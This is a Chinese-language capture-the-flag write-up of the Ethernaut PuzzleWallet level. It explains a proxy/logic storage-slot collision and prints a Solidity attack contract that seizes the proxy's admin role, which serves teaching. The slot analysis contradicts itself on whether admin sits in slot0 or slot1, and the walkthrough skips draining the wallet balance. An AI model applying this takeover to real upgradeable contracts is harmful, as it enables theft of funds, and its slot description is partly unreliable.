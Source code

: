 # PuzzleWallet

## Reference
[PuzzleWallet](https://ethernaut.openzeppelin.com/level/24)

[PuzzleWallet.sol](https://github.com/yuhuajing/ethernaut-book/blob/main/src/24-PuzzleWallet/PuzzleWallet.sol)

## 目标
成为代理合约的 admin 账户

## 分析
### slot
1. `proxy-admin` 地址和 `wallet-maxBalance` 存储在 `slot0`
2. `proxy-pendingAdmin` 地址和 `wallet-owner` 存储在 `slot1`

| Proxy-slot0 | Wallet-slot0 | Proxy-slot1 | Wallet-slot1 |
|----------|--------------|-------------|--------------|
| pendingAdmin         |    owner        |      admin    | maxBalance          | 

3. `Proxy` 合约存储状态，`Wallet` 合约存储逻辑
4. `Wallet` 合约的数据更新不会影响 `Proxy` 合约，因为 `Proxy` 只会使自己合约存储的数据
5. `Proxy` 合约的数据更新会影响 `Wallet` 合约的函数判断，因为 `Proxy` 会把 `Wallet` 合约逻辑拿到 `Proxy EVM` 环境中执行

### maxBalance
1. `Proxy-admin` 地址和 `Wallet-maxBalance` 存储在 `slot0`
2. 如果可以在 `Proxy` 中更新 `slot0->maxBalance(admin)` 数据，就可以实现目标
#### Wallet-setMaxBalance()
`function setMaxBalance(uint256 _maxBalance) external onlyWhitelisted`,函数需要白名单地址才能调用
#### Wallet-addToWhitelist()
```solidity
    function addToWhitelist(address addr) external {
        require(msg.sender == owner, "Not the owner");
        whitelisted[addr] = true;
    }
```
1. 函数需要 `owner` 地址调用
2. 在 `Wallet` 逻辑合约中，`owner` 存储在 `slot0`
3. 对于 `Proxy` 函数调用过程中 `owner` 的判断，也会从 `slot0` 中取数据
4. `Proxy slot0` 中存储的是 `pendingAdmin` 地址而言
#### Proxy-proposeNewAdmin()
```solidity
    function proposeNewAdmin(address _newAdmin) external {
        pendingAdmin = _newAdmin;
    }
```
`Proxy` 合约调用 `proposeNewAdmin()` 函数修改 `slot0-pendingAdmin` ，不需要额外的验证，任何地址都可以提交修改。

## 实现逻辑--修改admin为attack()合约地址
1. 部署 `Attack()` 合约，实例化 `Proxy` 和 `Wallet` 合约，将 `Proxy` 合约的 `admin` 地址更新为 `msg.sender`
2. 调用 `Proxy` 合约 `proposeNewAdmin()` 函数，`Attack` 合约地址作为参数传递 --> `Proxy 的slot0 存储 Attack() 合约地址`
3. 在 `Proxy` 合约中调用 `addToWhitelist()` 函数：
   1. `addToWhitelist()` 校验 `owner` 身份，`owner` 存储在 `slot0` 位置
   2. `Proxy` 合约按照 `Wallet` 逻辑，从 `slot0` 取出 `owner` 地址
   3. `slot0` 存储的是 `Attack()` 合约地址，交易发起者也是 `Attack()` 合约， 满足判断条件
4. 在 `Proxy` 合约中调用 `setMaxBalance()` 函数，将 `Attack` 合约地址作为参数传递
   1. `setMaxBalance()` 校验 白名单
   2. 第三步骤将 `Attack` 合约置为白名单，满足条件
   3. `Proxy` 合约按照 `Wallet` 逻辑--> 更新 `slot1` 数据
5. 在 `Proxy` 中读取 `slot1--> Admin` 地址
```solidity
    constructor() {
        pw = new PuzzleWallet();
        pp = new PuzzleProxy(msg.sender, address(pw), "");
    }

    function attack() external returns (address) {
        pp.proposeNewAdmin(address(this));
        bytes memory data = abi.encodeWithSelector(
            bytes4(keccak256("addToWhitelist(address)")),
            address(this)
        );
        address(pp).call(data);
        uint256 value = tovalue(address(this));
        data = abi.encodeWithSelector(
            bytes4(keccak256("setMaxBalance(uint256)")),
            value
        );
        address(pp).call(data);
        return pp.admin();
    }
```
